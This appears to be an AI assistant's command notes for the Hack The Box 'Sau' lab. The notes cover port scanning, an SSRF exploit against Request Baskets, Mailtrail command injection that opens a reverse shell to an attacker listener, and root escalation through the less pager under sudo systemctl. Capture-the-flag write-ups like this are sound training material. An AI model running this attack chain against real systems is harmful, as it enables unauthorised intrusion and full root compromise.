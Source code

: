 Got it! Here's a clean version of the command notes for **HTB: Sau**, grouped by stage and purpose, with no CVE code — just the link references:

---

# 💎 HTB: Sau - Command Notes

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.224  # Full TCP port scan
nmap -p 22,55555 -sCV 10.10.11.224      # Service/version detection on discovered ports
```

> Open ports: 22 (SSH), 55555 (HTTP - Request Baskets service)

---

## 🧪 SSRF Exploitation (CVE-2023-27163)

**Tool/POC**:  
[Request Baskets SSRF GitHub PoC](https://github.com/entr0pie/CVE-2023-27163)

```bash
./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

> Uses SSRF to proxy internal services (e.g., Mailtrail on localhost)

---

## 🐚 Command Injection via Mailtrail (v0.53)

**Tool/POC**:  
[Mailtrail RCE GitHub Repo](https://github.com/sf7-sf7/Mailtrail-RCE)

```bash
nc -lvnp 443  # Listener

# Adjusted Mailtrail RCE script to target SSRF basket URL:
python mailtrail_rce.py 10.10.14.6 443 http://10.10.11.224:55555/<basket-id>
```

> Drops a reverse shell as `puma`

---

## 🧑‍💻 Shell Upgrade

```bash
script /dev/null -c bash
# Press Ctrl+Z
stty raw -echo; fg
reset
```

> Stabilizes the reverse shell

---

## 🧠 Privilege Escalation - Root via `less` + `systemctl`

```bash
sudo -l
# Shows: (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

sudo /usr/bin/systemctl status trail.service
# If output opens in less, type: !sh
```

> Less pager exploit: gain interactive shell as root via `!sh`

---

## 📂 Flags

```bash
cat /home/puma/user.txt
cat /root/root.txt
```

--- 

Let me know if you want the same structure for another box! 🧩📜